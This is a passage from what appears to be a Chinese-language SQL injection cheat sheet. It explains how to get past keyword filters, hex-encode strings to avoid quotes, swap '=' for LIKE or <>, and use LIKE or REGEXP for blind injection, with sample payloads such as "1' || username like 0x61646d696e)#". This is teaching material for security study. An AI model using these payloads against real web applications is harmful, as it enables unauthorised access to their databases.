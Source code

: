 用 SELECT 可以绕过

```php
preg_replace('/select|union|from|where|insert|update/','',$username)
```

### 16进制绕过

mysql中字符串都可以转换成对应的16进制形式。

例如：

`1 or 1` == `0x31206f722031`

利用前提：

1、insert插入时对应字段为字符类型（varchar、char等等）
2、SQL语句values时不允许存在单引号。

例句：

```
insert into xiaol(id, address) values(1, 0x31206f722031)
```

### 碰到 “=” 等于号被过滤的情况。

我们知道 = 号，在mysql中常用条件查询（过滤的了话）。可以使用其他条件来进行判断

可以使用 <> 不等于，也可以改用 like

```
1' || username like 0x61646d696e)#
# 16进制转换后为，发现admin前后不能加'，否则会找不到数据
1' || username like admin)#
```

这里就直接使用了like，(这里说一下小技巧，有时候想 like 模糊查询下，但是有单引号，那么我可以这样写： like 0x2725302d662e6f72672527 （’%0-f.org%’）)

regexp 后面的参数也可以使用16进制

### regexp 和 like 

当 select 和 () 被过滤的时候，可以用 regexp 和 like 盲注出当前表的字段值

like 使用 % 和 _ 作为通配符，因此这两个字符无法匹配，需要结合 regexp 搭配使用

- % 表示任意个或多个字符。可匹配任意类型和长度的字符。
- _ 表示任意单个字符。匹配单个任意字符，它常用来限制表达式的字符长度语句（可以代表一个中文字符）

regexp 在使用的时候要加上 '^' 这个前缀，例如 '^abc'


regexp 和 like 在查询的时候默认都是不区分大小写的

```
# 不区分大小写
select * from table_name where a like 'a%'
select * from table_name where a regexp '^a'

# 区分大小写
select * from table_name where binary a like 'a%'
select * from table_name where binary a regexp '^a'
```
